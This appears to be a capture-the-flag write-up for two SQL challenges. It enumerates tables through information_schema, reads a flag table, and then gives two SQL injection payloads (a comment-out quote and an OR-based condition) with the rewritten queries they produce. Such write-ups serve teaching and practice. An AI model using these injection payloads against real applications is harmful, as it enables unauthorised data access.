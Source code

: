 # Part 1:
## Get more information about the database tables
- Use a select query from information_schema to get the table names
```
SELECT table_name FROM information_schema.tables;

...SNIP...
basic_table
basic_table_names
flag_table
```

## Investigate flag_table
- Use a select query to get all the rows from flag_table
```
SELECT * FROM flag_table;
b0ctf{you_found_the_flag!}
```

# Part 2:
- This is an actual SQL injection and you're given the query as a hint.
- First of all just looking at the table, it looks incomplete the IDs go from 2 to 4 and 5 to 9 so we're missing information.
- If you look closely it's the same table as the example from the index
- To check if this is vulnerable to SQL injection, just put a `'` into the search bar.
    - We get an error so yes it is. (It's also an SQL injection example so of course it is I'm just adding this so you can check when you solve other CTF challenges)

- Here are 2 solutions:
- **Note if these don't work, change the comment from ** `#` **to** `-- -`
- **Also note that the query in the hint is sent by the server, you have to inject your own input into it**
1. ';#
    - The query for this turns into: `SELECT title, author FROM books WHERE title LIKE '%`';#`%' AND pages <= 400;`
2. ' OR pages >= 500 OR author LIKE ';
    - The query for this turns into: `SELECT title, author FROM books WHERE title LIKE '`%' OR pages >= 500 OR author LIKE '`%' AND pages <= 400;`

